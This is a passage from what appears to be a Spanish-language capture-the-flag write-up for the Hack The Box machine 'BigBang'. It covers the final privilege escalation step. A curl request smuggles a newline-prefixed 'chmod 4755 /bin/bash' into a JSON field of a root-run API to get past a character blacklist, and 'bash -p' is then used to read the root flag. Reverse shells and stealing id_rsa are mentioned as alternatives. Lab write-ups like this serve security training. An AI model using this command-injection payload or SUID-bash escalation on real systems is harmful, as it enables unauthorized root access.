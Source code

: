 Desde nuestro `sniffer`, debimos haber recibido una traza ICMP

~~~ bash
tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:45:09.778764 IP blog.bigbang.htb > 10.10.15.9: ICMP echo request, id 6, seq 1, length 64
22:45:09.778787 IP 10.10.15.9 > blog.bigbang.htb: ICMP echo reply, id 6, seq 1, length 64
~~~


## Root Time

Al ver quién ejecuta la `app` de `satellite`, el cual era el nombre de la aplicación `.apk`, podemos ver que la ejecuta `root`

~~~ bash
-bash-5.1$ ps -faux | grep satellite
develop+   30820  0.0  0.0   6620  2260 pts/0    S+   02:47   0:00              \_ grep satellite
root        1680  0.0  1.8 468008 71668 ?        Ssl  May03   0:06 /usr/bin/python3 /root/satellite/app.py
~~~

Tenemos inyección de comandos, podemos ejecutar cualquier cosa que nos permita ganar acceso al sistema: Hacer que `bash` sea `suid`, `reverse shell`, `id_rsa`, etc. Pero si intentamos una reverse shell parece que ciertos caracteres están dentro de una lista negra (`&`, `>`, `;`).

Le asignaremos el bit `suid` a la `bash` para poder convertirnos en `root`

~~~ bash
curl -siX POST http://app.bigbang.htb:9090/command -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NjMyNDUwNCwianRpIjoiNzNiZmJmYmYtZDg0My00Y2EyLWE1OTYtOGUxM2FlYjdkOTQzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NjMyNDUwNCwiY3NyZiI6IjE5NzgwYzM5LWI0NjQtNGExNy1iYWJkLTQwMjJmMWFiOTE5ZSIsImV4cCI6MTc0NjMyODEwNH0.krPlc88XT-qNr4KRQazfeB7Bg9bRnS8esUpbYxaRtNI' -d '{ "command": "send_image", "output_file": "\nchmod 4755 /bin/bash"}'
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Sun, 04 May 2025 02:56:08 GMT
Content-Type: application/json
Content-Length: 101
Connection: close

{"error":"Error reading image file: [Errno 2] No such file or directory: '\\nchmod 4755 /bin/bash'"}
~~~

Una vez hayamos ejecutado este comando, podemos comprobar los permisos de `bash`.

- `bash -p`: Lanzar una `bash` como el usuario propietario (`root`)

~~~ bash
-bash-5.1# ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash

-bash-5.1$ bash -p
bash-5.1# id
uid=1002(developer) gid=1002(developer) euid=0(root) groups=1002(developer)
bash-5.1# cat /root/root.txt 
629...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

